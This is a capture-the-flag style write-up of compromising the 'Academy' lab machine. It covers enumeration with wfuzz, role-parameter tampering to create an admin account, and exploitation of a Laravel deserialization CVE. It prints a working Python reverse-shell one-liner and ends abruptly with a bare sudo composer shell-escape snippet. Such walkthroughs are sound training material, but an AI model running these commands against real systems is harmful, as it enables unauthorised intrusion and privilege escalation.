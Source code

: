 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/whoami.PNG)

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

There are several users on the system
```
www-data@academy$ ls /home/
ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
```
Login attempt with the cry0l1t3 user was successed and we got the user.txt flag  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/user%20flag.PNG)

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
